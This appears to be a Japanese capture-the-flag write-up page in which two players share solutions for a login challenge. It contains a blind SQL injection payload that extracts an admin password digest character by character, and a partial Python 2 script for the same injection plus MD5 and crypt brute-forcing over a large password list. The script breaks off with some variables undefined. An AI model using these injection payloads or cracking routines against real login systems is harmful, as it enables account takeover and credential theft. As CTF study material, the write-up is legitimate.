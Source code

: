 ## @wataz0u

````
ブラインドSQLインジェクション→ブルートフォース→ブルートフォース

name=[適当文字列]' or substr((SELECT digest FROM admin WHERE name = 'admin' limit 1),1,13)='samtVtCiNO2tY&password=

MD5は数値のみで試行
17160132748でヒット（ごく一般的なマシン（？）で約6時間）
````

## @shift\_crops

````
md5総当たり用のパスワードファイルを100件(password.aa~password.dv : 14.6GB)用意しましたw

$./console.py admin 100

================

#!/usr/bin/python2.7

import sys
import urllib, urllib2
import crypt
import md5

argvs = sys.argv

url = "http://q35.ctf.katsudon.org/login"
query="' or (select substr(digest,%d,1) from admin where name='%s')>'%c"
user = argvs[1] if len(argvs)>1 else "admin"
md5chars="0123456789abcdef"
alpha = "abcdefghijklmnopqrstuvwxyz"


def decrypt(gen_str,n):
        for c in md5chars:
                if(n>1):
                        ret=decrypt(gen_str+c,n-1)
                        if(ret):
                                return ret
                else:
                        if(crypt.crypt(gen_str+c,salt)==digest):
                                return gen_str+c
        return

def md5_plain(md5_head):
        pass_file=[]
        for i in range(int(argvs[2]) if len(argvs)>2 else 4):
                pass_file += ["password.%c%c" % (alpha[i/26],alpha[i%26])]
        
        for files in pass_file:
                print "open: "+files
                f = open(files,"r")
                for line in f:
                        if(md5.new(line[:-1]).hexdigest()[0:8]==md5_head):
                                f.close()
                                return line[:-1]
                f.close()
        return

````